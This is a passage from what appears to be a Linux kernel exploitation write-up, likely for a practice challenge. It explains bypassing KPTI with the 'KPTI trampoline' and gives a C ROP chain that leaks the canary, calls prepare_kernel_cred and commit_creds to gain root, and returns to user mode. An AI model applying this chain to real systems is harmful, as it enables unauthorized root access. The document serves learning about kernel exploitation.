 ```
uid=0 gid=0
/ # 
```

### Exploit Two

For this exploit, I have added KPTI protections. To be honest there is not that much of a difference for the technique that I used, KPTI trampoline. 

Literally all it is is that now we remove our swapgs and iretq gadgets into calling the nice and short named symbol, `swapgs_restore_regs_and_return_to_usermode`. This symbol has a bunch of `pop` instructions at first but then after 22 bytes the original symbol there is this:

```
	 * mov rdi, rsp
	 * mov rsp, gs
	 * push [rdi + 0x30]
	 * push [rdi + 0x28]
	 * push [rdi + 0x20]
	 * push [rdi + 0x18]
	 * push [rdi + 0x10]
	 * push [rdi]
	 * push rax
	 * jmp swapgs
```

And inside the swapgs address there will be this:

``` 
     * pop rax
	 * pop rdi
	 * call swapgs
	 * jmp iretq
```

Legit this makes it even easier compared to before. So now all you need to do is implement it into a ROP chain.

```c
void overflow () {
	unsigned long payload[50];
	int offset = 16;

	payload[offset++] = leak_canary();
	payload[offset++] = 0x0; // rbx
	payload[offset++] = 0x0; // r12
	payload[offset++] = 0x0; // rbp
	payload[offset++] = pop_rdi;
	payload[offset++] = 0x0;
	payload[offset++] = prepare_kernel_cred;
	payload[offset++] = mov_rdi_rax_pop_rbp;
	payload[offset++] = 0x0;
	payload[offset++] = commit_creds;
	payload[offset++] = swapgs_restore_regs_and_return_to_usermode + 22;
	payload[offset++] = 0x0; // pop rax
	payload[offset++] = 0x0; // pop rdi
	payload[offset++] = user_rip + 1;
	payload[offset++] = user_cs;
	payload[offset++] = user_rflags;
	payload[offset++] = user_sp;
	payload[offset++] = user_ss;


	//payload[offset++] = (unsigned long) &escalate_privs; // ret
	puts("[*] Sending payload...");
	
	ssize_t w = write(kernel_fd, payload, sizeof(payload));
```